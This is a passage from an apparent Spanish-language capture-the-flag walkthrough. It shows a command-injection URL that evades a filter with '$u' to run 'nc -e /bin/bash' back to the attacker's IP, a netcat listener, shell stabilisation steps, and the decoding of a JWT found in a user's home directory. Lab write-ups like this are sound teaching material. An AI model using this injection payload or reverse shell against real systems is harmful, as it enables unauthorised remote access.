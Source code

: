 Por lo que si estamos a la escucha y hacemos lo siguiente...

```shell
nc -lvnp <PORT>
```

```
URL = http://<IP>/test.php?file=www.google.com;nc$u -e /bin$u/bash$u <IP> <PORT>
```

Y ejecutamos eso estando a la escucha tendremos una shell con el usuario `www-data` `bypasseando` las medidas de seguridad...

Sanitizamos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la `/home` de l usuario `bob` veremos un archivo llamado `._pw_` que si lo leemos dice lo siguiente...

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
```

Y si identificamos que algoritmo es en `Hash Identifaller`...

```
Possible algorithms: JWT (JSON Web Token), Base64 Encoded String
```

Por lo que lo decodificamos y quedaria algo tal que asi...

```
{
  "alg": "HS256",
  "typ": "JWT"
}

{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
}

pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
```
